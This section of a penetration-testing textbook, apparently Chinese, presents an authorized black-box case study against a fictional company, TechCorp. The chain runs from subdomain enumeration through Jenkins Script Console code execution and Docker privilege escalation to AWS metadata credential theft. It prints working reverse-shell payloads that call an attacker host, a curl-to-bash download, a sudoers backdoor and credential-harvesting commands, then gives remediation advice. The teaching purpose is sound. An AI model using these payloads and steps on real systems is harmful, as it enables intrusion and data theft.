


## 3.4 案例四：综合渗透测试

综合渗透测试是渗透测试中最具挑战性的类型，它要求测试人员从零信息出发，跨越外部网络、Web应用、内网基础设施和云环境等多个层面，完整模拟真实攻击者的攻击路径。本案例展示了一次从互联网暴露面到云环境全面沦陷的渗透测试全过程，重点呈现多漏洞链式利用的实战思路。

### 3.4.1 测试背景与目标

**客户概况**：某科技公司（代号 TechCorp）主营SaaS业务，员工约300人，技术团队50人。公司采用混合云架构，核心业务部署在AWS云环境，部分内部系统部署在自建机房。

**测试类型**：黑盒测试。测试人员仅获得目标公司域名 `techcorp.com` 作为唯一输入，不提供任何账号、架构文档或内部信息。

**测试目标**：
1. 评估企业互联网暴露面的安全状况
2. 评估Web应用和API接口的安全性
3. 评估内部网络的防护和隔离能力
4. 评估云环境的IAM配置和安全策略
5. 模拟真实攻击者，验证从外部到核心资产的完整攻击路径可行性

**测试范围**：`*.techcorp.com` 及其关联的IP段、AWS云资源、VPN接入点。测试时间窗口为10个工作日。

**法律授权**：测试前已签署正式的渗透测试授权书（Rules of Engagement），明确测试边界、禁止行为（如拒绝服务攻击、社会工程学）和紧急联系人。

### 3.4.2 阶段一：外部信息收集

信息收集是黑盒渗透测试中最耗时但最关键的阶段。测试人员遵循"广度优先、深度跟进"的策略，从多个维度收集目标信息。

#### 3.4.2.1 子域名枚举

使用多个工具交叉验证，最大化子域名发现率：

```bash
# Amass - 基于OSINT的被动枚举
amass enum -passive -d techcorp.com -o amass_passive.txt

# Subfinder - 快速被动枚举
subfinder -d techcorp.com -all -o subfinder.txt

# 主动枚举 - 使用gobuster进行DNS爆破
gobuster dns -d techcorp.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -t 50 -o gobuster_dns.txt

# 合并去重
cat amass_passive.txt subfinder.txt gobuster_dns.txt | sort -u > all_subdomains.txt
wc -l all_subdomains.txt
# 输出：47 unique subdomains discovered
```

去重后发现47个子域名，其中以下子域名与安全评估高度相关：

| 子域名 | 用途推断 | 优先级 |
|--------|----------|--------|
| www.techcorp.com | 主站 | 高 |
| mail.techcorp.com | 邮件服务 | 中 |
| vpn.techcorp.com | VPN接入点 | 高 |
| dev.techcorp.com | 开发环境 | 高 |
| staging.techcorp.com | 预发布环境 | 高 |
| jenkins.techcorp.com | CI/CD平台 | 极高 |
| grafana.techcorp.com | 监控面板 | 高 |
| api.techcorp.com | API服务 | 高 |
| admin.techcorp.com | 管理后台 | 极高 |
| s3.techcorp.com | S3存储 | 中 |
| wiki.techcorp.com | 内部Wiki | 中 |

#### 3.4.2.2 域名解析与CDN识别

首先确认哪些域名使用了CDN，哪些直接暴露了源站IP：

```bash
# 批量解析所有子域名
for sub in $(cat all_subdomains.txt); do
  echo "$sub -> $(dig +short $sub A | head -1)"
done | tee dns_resolution.txt

# 检查CDN标识
# Cloudflare特征IP段：104.16.x.x ~ 104.31.x.x
# AWS CloudFront特征：dxxxxx.cloudfront.net CNAME
dig jenkins.techcorp.com ANY +short
# 输出：jenkins.techcorp.com -> 203.0.113.50 (直接IP，未使用CDN)

# 通过SecurityTrails历史DNS记录查找源站IP
curl -s "https://api.securitytrails.com/v1/history/techcorp.com/dns/A" \
  -H "APIKEY: $ST_API_KEY" | jq '.records[].values[] | .ip'
```

确认 `jenkins.techcorp.com`、`dev.techcorp.com`、`grafana.techcorp.com` 均未使用CDN保护，直接暴露了源站IP。

#### 3.4.2.3 端口扫描与服务识别

对关键子域名进行端口扫描：

```bash
# 对Jenkins服务器进行全端口扫描
nmap -sS -sV -O -p- --min-rate 5000 -oA jenkins_full jenkins.techcorp.com

# 扫描结果摘要
# PORT     STATE SERVICE     VERSION
# 22/tcp   open  ssh         OpenSSH 8.4p1
# 8080/tcp open  http-proxy  Jenkins 2.387.3
# 50000/tcp open  Jenkins agent (JNLP)
# 8443/tcp open  https       Grafana 9.2.0

# 对开发环境进行扫描
nmap -sS -sV -p 1-10000 --top-ports 1000 -oA dev_scan dev.techcorp.com
# PORT     STATE SERVICE  VERSION
# 80/tcp   open  http     Apache 2.4.51
# 3306/tcp open  mysql    MySQL 8.0.28
# 8080/tcp open  http     Tomcat 9.0.54
# 6379/tcp open  redis    Redis 6.2.6
```

关键发现：
- `jenkins.techcorp.com:8080` — Jenkins控制台对外开放
- `jenkins.techcorp.com:50000` — JNLP Agent端口开放（潜在攻击面）
- `dev.techcorp.com:6379` — Redis端口对外暴露（非预期暴露）

#### 3.4.2.4 Web技术栈识别

```bash
# 使用whatweb识别Web技术栈
whatweb jenkins.techcorp.com:8080
# [200] Jenkins[2.387.3], jQuery[3.6.0], Stapler

# 使用Wappalyzer CLI识别
wappalyzer https://grafana.techcorp.com
# Grafana 9.2.0, Angular, Go

# 检查HTTP响应头中的安全头缺失
curl -sI https://jenkins.techcorp.com:8080 | grep -iE "x-frame|x-content|strict-transport|content-security"
# 未返回任何安全相关响应头
```

#### 3.4.2.5 信息收集阶段小结

通过系统化的信息收集，测试人员建立了完整的目标画像：



### 3.4.3 阶段二：漏洞发现与初始突破

#### 3.4.3.1 Jenkins未授权访问验证

测试人员首先验证Jenkins控制台的访问控制：

```bash
# 直接访问Jenkins管理接口
curl -s -o /dev/null -w "%{http_code}" https://jenkins.techcorp.com:8080/manage
# 返回：200 （可直接访问，未要求认证）

# 检查Script Console是否可用
curl -s -o /dev/null -w "%{http_code}" https://jenkins.techcorp.com:8080/script
# 返回：200 （Script Console可访问）

# 验证是否为默认配置（查看是否启用了CSRF保护）
curl -s https://jenkins.techcorp.com:8080/api/json?pretty=true | jq '.useCrumbs'
# 返回：false （CSRF保护已禁用）
```

Jenkins 2.387.3版本本身并不存在未授权访问漏洞，这是由于管理员在安装时选择了"跳过安全设置"，且后续未配置认证策略。这是一个典型的配置错误，而非软件漏洞。

#### 3.4.3.2 Script Console命令执行

Jenkins Script Console允许管理员执行Groovy脚本进行系统调试，但在未授权访问的情况下，这等同于远程命令执行（RCE）。

```groovy
// 在Jenkins Script Console中验证命令执行
def cmd = "id".execute()
println cmd.text
// 输出：uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
```

**深入利用 — 环境信息收集**：

```groovy
// 收集系统信息
println "Hostname: ${InetAddress.getLocalHost().getHostName()}".execute().text
println "OS: ${System.getProperty('os.name')} ${System.getProperty('os.version')}".execute().text

// 列出网络接口
def ifaces = NetworkInterface.getNetworkInterfaces()
while (ifaces.hasMoreElements()) {
    def iface = ifaces.nextElement()
    println "Interface: ${iface.name} - ${iface.inetAddresses.collect{it.hostAddress}}"
}

// 检查是否有云环境元数据服务
try {
    def metaUrl = new URL("http://169.254.169.254/latest/meta-data/")
    def meta = metaUrl.text
    println "AWS EC2 instance detected"
    println "Instance metadata: ${meta}"
} catch (Exception e) {
    println "No cloud metadata service accessible"
}
// 输出：AWS EC2 instance detected
// 输出：Instance metadata: ami-id instance-id instance-type ...
```

关键发现：Jenkins服务器运行在AWS EC2实例上，且可以访问实例元数据服务（`169.254.169.254`），这意味着后续可以从元数据服务中提取IAM角色凭据。

#### 3.4.3.3 获取反向Shell

通过Script Console建立稳定的反向Shell连接：

```groovy
// 方法一：Base64编码的Bash反向Shell（绕过简单过滤）
def encoded = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMC4zMC40MC80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}"
encoded.execute()
```

```groovy
// 方法二：Python反向Shell（当bash受限时使用）
def cmd = ["python3", "-c", """
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.20.30.40',4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(['/bin/bash','-i'])
"""]
cmd.execute()
```

```groovy
// 方法三：使用curl下载并执行payload（当直接编码受限时）
def cmd = "curl http://10.20.30.40:8080/shell.sh | bash".execute()
```

测试人员在攻击机上监听反向Shell：

```bash
# 攻击机监听
nc -lvnp 4444
# 连接来自：203.0.113.50:38472
# jenkins@ip-10-0-1-25:~$

# 升级为交互式Shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
```

获取Shell后，测试人员进行了环境评估：

```bash
# 检查当前权限
id
# uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)

# 检查sudo权限
sudo -l
# (ALL : ALL) NOPASSWD: /usr/bin/docker
# 发现jenkins用户可以无密码执行docker命令，这是提权的关键路径

# 检查内网IP
ip addr show
# eth0: 10.0.1.25/24

# 检查AWS元数据
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
# jenkins-ec2-role
```

### 3.4.4 阶段三：后渗透与横向移动

#### 3.4.4.1 权限提升

Jenkins用户可以通过sudo执行docker命令，利用Docker特权容器实现提权：

```bash
# 通过Docker挂载宿主机文件系统提权
sudo docker run -v /:/hostfs --rm -it alpine chroot /hostfs bash

# 现在拥有宿主机的root权限
cat /etc/shadow | head -3
# root:$6$xxx:19000:0:99999:7:::

# 在宿主机上建立持久化后门
echo "jenkins ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

MITRE ATT&CK映射：T1611（Escape to Host） — 通过Docker挂载逃逸到宿主机。

#### 3.4.4.2 凭据发现与收集

在Jenkins服务器上进行系统化的凭据搜索：

```bash
# 搜索Jenkins凭据存储
cat /var/lib/jenkins/credentials.xml | grep -A5 '<string>'
# 发现Jenkins内置凭据管理器中存储了以下凭据：
# - GitLab管理员账号: gitlab-admin / G!tLab@2024
# - AWS访问密钥: AKIA... (jenkins-ec2-role)
# - MySQL数据库: dbadmin / MyS3cureP@ss

# 搜索配置文件中的硬编码凭据
grep -rn "password\|secret\|api_key\|token" /var/lib/jenkins/*.xml 2>/dev/null

# 搜索环境变量中的敏感信息
env | grep -iE "key\|secret\|token\|pass"

# 检查.bash_history中是否有凭据泄露
cat /home/jenkins/.bash_history | grep -iE "ssh\|scp\|mysql\|curl.*token"

# 搜索SSH密钥
find / -name "id_rsa" -o -name "id_ecdsa" 2>/dev/null
# /home/jenkins/.ssh/id_rsa
# /var/lib/jenkins/.ssh/id_rsa  （可连接到其他内网服务器）
```

凭据汇总：

| 来源 | 凭据类型 | 内容 | 可访问的系统 |
|------|----------|------|-------------|
| Jenkins credentials.xml | GitLab账号 | gitlab-admin / G!tLab@2024 | gitlab.techcorp.com |
| Jenkins credentials.xml | AWS Access Key | AKIA... | S3, EC2, IAM |
| Jenkins credentials.xml | MySQL | dbadmin / MyS3cureP@ss | 10.0.1.50:3306 |
| Jenkins credentials.xml | VPN凭据 | vpnuser / Vpn@2024! | vpn.techcorp.com |
| SSH密钥 | RSA私钥 | /var/lib/jenkins/.ssh/id_rsa | 内网服务器群 |
| AWS元数据 | IAM临时凭据 | STS Session Token | jenkins-ec2-role权限范围 |

#### 3.4.4.3 VPN接入与内网渗透

使用泄露的VPN凭据从外部接入企业内网：

```bash
# 使用OpenVPN连接企业VPN
openvpn --config techcorp-vpn.ovpn --auth-user-pass vpn_creds.txt

# 验证VPN连接成功
ip route show
# 10.0.0.0/8 via 10.8.0.1 dev tun0

# 内网扫描 - 发现存活主机
nmap -sn 10.0.1.0/24 -oG - | grep "Up" | awk '{print $2}'
# 10.0.1.10 (域控制器)
# 10.0.1.11 (DNS服务器)
# 10.0.1.20 (文件服务器)
# 10.0.1.25 (Jenkins服务器 - 已控制)
# 10.0.1.50 (MySQL数据库)
# 10.0.1.51 (Redis缓存)
# 10.0.1.100 (内部OA系统)
# 10.0.1.200 (GitLab)

# 对域控制器进行探测
nmap -sV -p 88,135,139,389,445,636,3268,3389 10.0.1.10
# 88/tcp   open  kerberos    Microsoft Windows Kerberos
# 389/tcp  open  ldap        Microsoft Windows Active Directory LDAP
# 445/tcp  open  microsoft-ds Microsoft Windows Server 2019
```

#### 3.4.4.4 GitLab凭据利用

使用从Jenkins获取的GitLab管理员凭据登录代码仓库：

```bash
# 使用GitLab API获取所有项目列表
curl -s -H "PRIVATE-TOKEN: $(curl -s -X POST \
  'https://gitlab.techcorp.com/oauth/token' \
  -d 'grant_type=password&username=gitlab-admin&password=G!tLab@2024' \
  | jq -r '.access_token')" \
  'https://gitlab.techcorp.com/api/v4/projects?per_page=100' | jq '.[].name'

# 在代码仓库中搜索敏感信息
# 使用trufflehog扫描所有仓库
trufflehog gitlab --url https://gitlab.techcorp.com --token $GITLAB_TOKEN

# 手动搜索配置文件中的敏感信息
curl -s -H "PRIVATE-TOKEN: $GITLAB_TOKEN" \
  'https://gitlab.techcorp.com/api/v4/projects/1/search?scope=blobs&search=aws_secret' \
  | jq '.[].data'
# 发现：aws_secret_access_key 在 .env 文件中
# 发现：数据库连接字符串在 application.yml 中
# 发现：Stripe API Key 在 config/payment.yml 中
```

代码仓库中的凭据泄露是企业安全的重灾区。开发人员经常将 `.env` 文件误提交到代码仓库，或者在配置文件中硬编码密钥。

#### 3.4.4.5 数据库访问

使用获取的MySQL凭据访问内网数据库：

```bash
# 连接MySQL数据库
mysql -h 10.0.1.50 -u dbadmin -p'MyS3cureP@ss' -e "SHOW DATABASES;"
# +--------------------+
# | Database           |
# +--------------------+
# | techcorp_prod      |
# | techcorp_user      |
# | techcorp_payment   |
# +--------------------+

# 检查用户表数据量
mysql -h 10.0.1.50 -u dbadmin -p'MyS3cureP@ss' \
  -e "SELECT COUNT(*) FROM techcorp_user.users;"
# +----------+
# | COUNT(*) |
# +----------+
# | 523,847  |
# +----------+

# 检查是否包含敏感字段
mysql -h 10.0.1.50 -u dbadmin -p'MyS3cureP@ss' \
  -e "DESCRIBE techcorp_user.users;"
# 字段包括：name, email, phone, password_hash, id_card, address
```

数据库中存储了超过52万用户的个人信息，包括姓名、邮箱、手机号、身份证号等高敏感数据，一旦泄露将构成重大数据安全事件。

### 3.4.5 阶段四：云环境渗透

#### 3.4.5.1 AWS IAM凭据获取

从EC2实例元数据服务获取IAM临时凭据：

```bash
# 获取IAM角色名称
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
# jenkins-ec2-role

# 获取临时凭据
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/jenkins-ec2-role
# {
#   "AccessKeyId": "ASIA...",
#   "SecretAccessKey": "...",
#   "Token": "...",
#   "Expiration": "2024-xx-xxTxx:xx:xxZ"
# }

# 配置AWS CLI使用获取的凭据
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."

# 验证凭据有效性
aws sts get-caller-identity
# {
#   "UserId": "AROA...:i-0abc123def456",
#   "Account": "123456789012",
#   "Arn": "arn:aws:sts::123456789012:assumed-role/jenkins-ec2-role/i-0abc123def456"
# }
```

#### 3.4.5.2 IAM权限枚举

通过IAM权限边界评估，确定当前角色可以执行哪些操作：

```bash
# 检查IAM角色附加的策略
aws iam list-attached-role-policies --role-name jenkins-ec2-role
# 发现附加了 AdministratorAccess 策略（过度授权）

# 枚举S3存储桶
aws s3 ls
# 2024-01-15 techcorp-prod-data
# 2024-02-20 techcorp-user-uploads
# 2024-03-10 techcorp-backups
# 2024-04-05 techcorp-logs
# 2024-05-01 techcorp-secrets (命名暗示存储敏感信息)

# 检查S3存储桶的访问控制
aws s3api get-bucket-acl --bucket techcorp-secrets
# 发现：AllUsers组拥有 READ 权限（严重的ACL配置错误）

# 列出secrets存储桶中的内容
aws s3 ls s3://techcorp-secrets/
# 2024-05-01 database-credentials.json
# 2024-05-01 api-keys-prod.json
# 2024-05-01 ssl-certificates/
# 2024-05-01 .env.production
```

#### 3.4.5.3 S3数据访问

```bash
# 下载敏感配置文件
aws s3 cp s3://techcorp-secrets/database-credentials.json /tmp/
cat /tmp/database-credentials.json
# {
#   "prod_db": {"host": "rds-prod.techcorp.internal", "user": "root", "password": "R00t@Prod!2024"},
#   "analytics_db": {"host": "rds-analytics.techcorp.internal", "user": "reader", "password": "An@lytics2024"},
#   "redis": {"host": "cache-prod.techcorp.internal", "password": "R3d!s@Pr0d"}
# }

aws s3 cp s3://techcorp-secrets/api-keys-prod.json /tmp/
cat /tmp/api-keys-prod.json
# {
#   "stripe_secret_key": "sk_live_...",
#   "sendgrid_api_key": "SG....",
#   "twilio_auth_token": "...",
#   "github_token": "ghp_..."
# }
```

#### 3.4.5.4 云环境横向移动

```bash
# 列出所有EC2实例
aws ec2 describe-instances --query 'Reservations[].Instances[].[InstanceId,State.Name,Tags[?Key==`Name`].Value|[0]]' \
  --output table

# 发现可以创建新的EC2实例并附加高权限角色
aws ec2 run-instances \
  --image-id ami-0abcdef1234567890 \
  --instance-type t3.micro \
  --iam-instance-profile Name=AdminRole \
  --key-name techcorp-prod-key \
  --security-group-ids sg-xxx

# 检查Lambda函数
aws lambda list-functions --query 'Functions[].[FunctionName,Role]' --output table
# 发现多个Lambda函数使用了高权限执行角色

# 检查RDS数据库
aws rds describe-db-instances --query 'DBInstances[].[DBInstanceIdentifier,Endpoint.Address,Engine]' --output table
# 发现生产数据库的端点地址，可以直接连接
```

IAM角色 `jenkins-ec2-role` 被附加了 `AdministratorAccess` 策略，这意味着攻击者可以完全控制该AWS账户下的所有资源，包括创建新的高权限实例、修改IAM策略、访问所有S3数据等。

### 3.4.6 攻击路径全景图

整个攻击链从一个域名开始，通过多步漏洞利用，最终实现了对企业和云环境的全面控制：



### 3.4.7 MITRE ATT&CK 映射

将本次测试的攻击技术映射到MITRE ATT&CK框架，便于企业防御团队针对性加固：

| 阶段 | 技术ID | 技术名称 | 本次测试中的具体表现 |
|------|--------|----------|---------------------|
| 侦察 | T1596.001 | DNS/Passive DNS | 子域名枚举、历史DNS查询 |
| 侦察 | T1595.002 | Vulnerability Scanning | Nmap端口扫描、服务识别 |
| 初始访问 | T1190 | Exploit Public-Facing App | Jenkins Script Console未授权访问 |
| 执行 | T1059.007 | JavaScript/JScript | Groovy脚本命令执行 |
| 持久化 | T1098 | Account Manipulation | 修改sudoers提权 |
| 提权 | T1611 | Escape to Host | Docker容器逃逸到宿主机 |
| 凭据访问 | T1552.001 | Credentials In Files | 从Jenkins配置文件提取凭据 |
| 凭据访问 | T1552.005 | Cloud Instance Metadata | 从EC2元数据获取IAM凭据 |
| 发现 | T1046 | Network Service Discovery | 内网端口扫描和服务发现 |
| 横向移动 | T1078.004 | Cloud Accounts | 使用AWS IAM凭据横向移动 |
| 收集 | T1213 | Data from Information Repositories | GitLab代码仓库数据访问 |
| 渗出 | T1530 | Data from Cloud Storage | S3存储桶数据渗出 |

### 3.4.8 测试总结与风险评估

#### 3.4.8.1 漏洞发现汇总

| 编号 | 漏洞 | 严重程度 | CVSS 3.1 | MITRE ATT&CK |
|------|------|----------|----------|--------------|
| VULN-01 | Jenkins未授权访问 + RCE | 严重 | 9.8 | T1190 |
| VULN-02 | EC2实例元数据服务未限制 | 高危 | 7.5 | T1552.005 |
| VULN-03 | IAM角色过度授权（AdministratorAccess） | 严重 | 9.0 | T1078.004 |
| VULN-04 | S3存储桶ACL配置错误 | 高危 | 7.5 | T1530 |
| VULN-05 | Jenkins凭据明文存储 | 高危 | 7.2 | T1552.001 |
| VULN-06 | GitLab管理员凭据泄露 | 高危 | 7.5 | T1552.001 |
| VULN-07 | 数据库凭据硬编码在配置文件 | 高危 | 7.0 | T1552.001 |
| VULN-08 | 内网缺乏微隔离 | 中危 | 5.3 | T1046 |
| VULN-09 | Redis端口对外暴露 | 中危 | 5.3 | T1046 |
| VULN-10 | VPN凭据在配置文件中明文存储 | 高危 | 7.2 | T1552.001 |

#### 3.4.8.2 整体风险评估

**综合风险等级：严重（Critical）**

本次测试证明，攻击者仅凭一个域名，通过多个中低危漏洞的链式利用，最终可以：
1. **完全控制企业AWS云环境** — 包括所有EC2实例、S3数据、RDS数据库、Lambda函数
2. **获取52万+用户个人信息** — 涉及姓名、手机号、身份证号等高敏感数据
3. **控制企业代码仓库** — 可植入后门、窃取知识产权
4. **接入企业内网** — 可进一步渗透域环境
5. **获取第三方服务密钥** — Stripe支付密钥泄露可直接导致资金损失

单个漏洞的严重程度可能不高，但组合利用后的影响是灾难性的。这正是"瑞士奶酪模型"在安全领域的体现——每一层防护都有漏洞，当这些漏洞恰好对齐时，攻击者就能穿透所有防线。

#### 3.4.8.3 修复建议

**立即修复（P0 — 48小时内）**：

1. **Jenkins访问控制**：配置认证策略（LDAP/Active Directory集成），启用CSRF保护，限制Script Console仅管理员可访问，配置IP白名单
2. **AWS IAM最小权限**：将 `jenkins-ec2-role` 的 `AdministratorAccess` 替换为最小必要权限策略
3. **S3存储桶ACL修复**：移除 `techcorp-secrets` 的 AllUsers READ 权限，启用S3 Block Public Access
4. **凭据轮换**：立即轮换所有泄露的凭据，包括AWS密钥、数据库密码、GitLab密码、VPN密码、第三方API密钥

**短期修复（P1 — 2周内）**：

5. **凭据管理系统**：将Jenkins凭据迁移到HashiCorp Vault或AWS Secrets Manager，禁止在配置文件中明文存储凭据
6. **EC2实例元数据加固**：启用IMDSv2（需要session token），限制元数据服务访问范围
7. **代码仓库扫描**：在GitLab CI/CD中集成trufflehog或gitleaks，防止凭据提交到代码仓库
8. **内网微隔离**：部署网络分段策略，限制Jenkins服务器对数据库、VPN的直接访问

**长期优化（P2 — 1-3个月内）**：

9. **持续渗透测试**：建立定期渗透测试机制，至少每季度一次
10. **安全监控**：部署SIEM系统，对AWS CloudTrail、VPC Flow Logs、Jenkins审计日志进行集中监控和告警
11. **红蓝对抗**：定期开展内部红蓝对抗演练，验证防御体系的有效性
12. **安全开发培训**：针对开发团队开展安全编码培训，重点覆盖凭据管理、最小权限原则

### 3.4.9 综合案例的启示

这个案例是整章四个实战案例中最具代表性的，它展示了真实攻击的三个核心特征：

**1. 攻击是链式的，不是孤立的**

单个漏洞（如Jenkins未授权访问）可能只被评为"高危"而非"严重"，但当它与凭据泄露、IAM过度授权、S3配置错误等漏洞组合时，攻击者可以实现从互联网到核心资产的全链路突破。防御者不能只关注单个漏洞的修复，必须从攻击链的角度审视整体安全态势。

**2. 配置错误比软件漏洞更危险**

本次测试中没有任何零日漏洞或高级利用技术。所有问题都源于配置错误：Jenkins未配置认证、IAM策略过度授权、S3 ACL配置不当、凭据明文存储。这些配置错误的修复成本很低，但被利用后的影响极大。OWASP Top 10中的A01:2021（Broken Access Control）连续多年位列第一，正是因为它反映了这个普遍的安全问题。

**3. 云环境扩大了攻击面**

传统的渗透测试主要关注内网环境，但随着企业上云，攻击面已经从内网扩展到了云环境。AWS IAM配置不当、S3 ACL错误、EC2元数据服务未限制等云安全问题，可能比传统内网漏洞造成更大的影响。云安全需要专门的评估方法和工具（如ScoutSuite、Prowler、Pacu）。

本章通过四个不同类型的实战案例——Web应用渗透、内网渗透、无线网络渗透和综合渗透——展示了渗透测试在真实场景中的完整操作流程。读者应从这些案例中理解：渗透测试不是"找漏洞"的机械工作，而是一个需要创造性思维、系统化方法和深厚技术积累的专业领域。每一个成功的渗透测试背后，都是对目标系统的深入理解和对攻击技术的灵活运用。
